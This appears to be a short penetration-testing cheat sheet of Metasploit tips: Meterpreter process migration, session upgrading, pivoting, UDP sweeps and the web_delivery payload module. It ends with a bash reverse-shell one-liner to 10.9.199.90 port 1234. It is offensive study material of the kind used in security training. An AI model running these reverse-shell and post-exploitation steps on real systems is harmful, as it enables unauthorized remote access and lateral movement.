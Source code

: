 # USERS CAN BE USED AS PASSWORDS
# EXPORT NMAP SCANS IN XML FOR METASPLOIT
# Metasploit start
```
Start the postgresql service before using metasploit
service postgresql start
```

# X86 Meterpreter session
```
If in sysinfo meterpreter command output, show a x86 meterpreter, migrate to x64 proccess if the system is x64
> pgrep explorer 
> migrate PID
```

# Upgrade shell to meterpreter
```
sessions -u SESSION_NUMBER
```

# Pivoting MSF
```
In meterpreter

run autoroute -s IP (IP of the network to pivot)
```

# UDP scan MSF
```
auxiliary/scanner/discovery/udp_sweep
```

# Info about MSF modules
```
info -> gives info about the active module, useful for looking to the affected versions of a service by the active exploit
```

# Ifconfig not installed
```
ip a s
```

# MSF module for getting reverse shell
```
Module will set up a server with a payload and will create a payload to be executed on victim machine
/multi/script/web_delivery
[!] Important to set correct target and payload
```

# Reverse shell on scripts
```
/bin/bash -c 'bash -i >& /dev/tcp/10.9.199.90/1234 0>&1'
```



